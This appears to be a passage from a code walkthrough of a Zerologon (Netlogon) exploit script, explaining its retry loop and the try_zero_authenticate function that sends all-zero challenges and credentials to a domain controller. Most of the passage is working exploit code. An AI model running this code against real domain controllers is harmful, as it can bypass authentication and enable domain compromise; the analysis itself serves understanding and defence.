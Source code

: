 - **Lines 74-80**: Makes a maximum of 2,000 attempts to establish a Secure Channel as a DC machine account:

```py
for attempt in range(0, MAX_ATTEMPTS):
    result = try_zero_authenticate(rpc_con, dc_handle, dc_ip, target_computer)

    if result is None:
        print('=', end='', flush=True)
    else:
        break
```

- **Lines 20-51**: Each attempt corresponds to:

* Send a `NetrServerReqChallenge` and `NetrServerAuthenticate3` request with Client Challenge and Client Credential equal to 8 null bytes.
* If the `NetrServerAuthenticate3` response returns an ErrorCode equal to 0, then the SChannel has been established and the `try_zero_authenticate` function returns `True`.
* If the response returns an Error Code equal to `0xc0000022`, i.e. `STATUS_ACCESS_DENIED`, then the SChannel has not been established and the function returns `None`.

```py
def try_zero_authenticate(rpc_con, dc_handle, dc_ip, target_computer):
    # Connect to the DC's Netlogon service.


    # Use an all-zero challenge and credential.
    plaintext = b'\x00' * 8
    ciphertext = b'\x00' * 8

    # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled.
    flags = 0x212fffff

    # Send challenge and authentication request.
    nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
    try:
        server_auth = nrpc.hNetrServerAuthenticate3(
            rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
            target_computer + '\x00', ciphertext, flags
        )


        # It worked!
        assert server_auth['ErrorCode'] == 0
        return True

    except nrpc.DCERPCSessionError as ex:
        # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
        if ex.get_error_code() == 0xc0000022:
            return None
        else:
            fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
    except BaseException as ex:
        fail(f'Unexpected error: {ex}.')
```
